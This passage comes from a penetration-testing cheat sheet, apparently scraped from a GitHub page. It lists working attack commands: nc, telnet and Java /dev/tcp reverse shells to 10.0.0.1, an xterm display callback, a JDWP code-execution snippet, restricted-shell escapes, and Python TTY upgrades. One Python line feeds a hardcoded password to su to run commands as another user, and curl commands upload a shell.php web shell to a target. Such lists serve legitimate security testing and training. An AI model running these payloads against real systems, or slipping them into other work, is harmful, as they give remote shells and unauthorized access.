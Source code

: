 ```bash
nc localhost 443 | /bin/sh | nc localhost 444
telnet localhost 443 | /bin/sh | telnet localhost 444
```

#### Java

```bash
r = Runtime.getRuntime(); p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[]); p.waitFor();
```

#### XTerm

```bash
xterm -display 10.0.0.1:1
```

### JDWP RCE

```java
print new java.lang.String(new java.io.BufferedReader(new java.io.InputStreamReader(new java.lang.Runtime().exec("whoami").getInputStream())).readLine())
```

### Working with Restricted Shells

```bash
# rare cases
ssh bill@localhost ls -l /tmp
```

```bash
nice /bin/bash
```

### Interactive TTY Shells

```bash
/usr/bin/expect sh
```

```python
python -c ‘import pty; pty.spawn(“/bin/sh”)’
# execute one command with su as another user if you do not have access to the shell. Credit to g0blin.co.uk
python -c 'import pty,subprocess,os,time;(master,slave)=pty.openpty();p=subprocess.Popen(["/bin/su","-c","id","bynarr"],stdin=slave,stdout=slave,stderr=slave);os.read(master,1024);os.write(master,"fruity\n");time.sleep(0.1);print os.read(master,1024);'
```

### Uploading/POSTing Files Through WWW Upload Forms

```bash
# POST file
curl -X POST -F "file=@/file/location/shell.php" http://$TARGET/upload.php --cookie "cookie"

# POST binary data to web form
curl -F "field=<shell.zip" http://$TARGET/upld.php -F 'k=v' --cookie "k=v;" -F "submit=true" -L -v
```
